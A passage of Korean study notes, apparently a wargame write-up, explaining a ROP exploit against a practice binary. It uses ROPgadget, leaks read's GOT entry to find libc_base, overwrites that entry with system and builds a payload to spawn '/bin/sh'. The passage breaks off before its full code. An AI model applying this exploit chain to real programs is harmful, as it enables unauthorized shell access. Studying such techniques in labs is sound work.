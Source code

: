       - 리눅스에서 `ROPgadget --binary rop` 명령으로 바이너리를 분석하면, return gadget 들이 확인된다. 이중 rdi, rsi 가 포함된 gadget들을 확인한다. (이하 rdi_ret, rsi_ret)
      - rdi_ret, rsi_ret 을 활용하여 rdi() 와 rsi 값을 알맞게 설정 해 주고, 원하는 함수를 호출한다..
      - gadget들은 특정 함수를 호출하는 것이 아니기 때문에 동일한 stack frame 안에서 호출되므로 canary 를 세팅 해 줄 필요는 없다. 
      - 코드상으로는 다음과 같다.
        ```
        # (2) 에서 libc_base 를 알아내기 위해 buffer overflow 로 read 함수의 got 영역을 출력하도록 payload를 작성했다.
        # 여기에 system("/bin/sh") 를 호출하기 위한 코드를 이어서 작성한다.
        # read_got 에 system 함수의 주소를 덮어쓰기 위해 read 함수를 한 번 더 호출한다.
        # read(0, read_got, arg3) 를 호출하여 입력을 한 번 더 받도록 한다.
        # arg3, 즉 rdx 에 6 이상의 값이 들어가야 하지만, ROPgadget 명령으로 확인 결과 rdx 가 포함된 gadget이 없다면 운에 맡기고 호출한다.
        payload += p64(pop_rdi_ret) + p64(0)  # rdi 에 0 값 적용
        payload += p64(pop_rsi_pop_r15_ret) + p64(read_got) + p64(0)  # rsi 에 read_got 주소 적용, r15 pop을 위한 더미값 0 적용
        # read 함수의 plt 를 호출하면 system 함수가 호출되도록 got를 변경한다.
        # e = ELF(PROGRAM_PATH)
        # read_plt = e.plt['read']
        payload += p64(read_plt)  # read 함수 호출

        # read의 got를 system으로 변경하게 되면, read("/bin/bash") 를 호출한 결과는 system("/bin/bash") 가 된다.  
        payload += p64(pop_rdi_ret) + p64(addr_bin_sh)
        payload += p64(read_plt)
        ```

- 정리하자면 아래와 같다.
  - 전제조건 : 
    - 1) buffer overflow 2회 이상
    - 2) 바이너리 보유
  - 순서:
    - 1) canary 획득
    - 2) exploit 용 payload 작성
      - 바이너리를 `ROPgadget --binary rop` 로 분석하여 return gadget 추출
      - `write(1, read_got, ?)` 함수를 return gadget 으로 작성하여 read 함수(다른 함수도 가능) 의 got 주소 출력 유도
      - `read(0, read_got, ?)` 함수를 return gadget 으로 작성하여 read 함수의 got 영역 값 덮어쓰도록 하기
        - `read(read_got + 8)` 함수를 호출. read 함수의 got 를 system 함수의 주소로 변경하고, `read_got + 8` 에 `"/bin/sh"` 를 넣을 예정이기 때문에, 이 구문은 `system("/bin/sh")` 가 될 예정
    - 3) payload를 프로그램에 전달하여 출력된 read 함수의 주소를 획득, 획득한 주소에서 read 함수의 offset 을 빼서 libc_base 계산
    - 4) libc_base 에 system 함수의 offset 을 더해서 system 함수의 주소 계산
    - 5) system 함수의 주소(8byte) + "/bin/sh"(8byte) 의 payload 를 작성하여 프로그램에 전달
      - 앞서 작성한 `read(0, read_got, ?)` 함수에서 이를 수신함
    - 그 결과 프로그램에서 `read(read_got + 8)` 는 `system("/bin/sh")` 로 변경되고, 쉘 권한을 획득하게 됨
- 전체 코드는 다음과 같다.
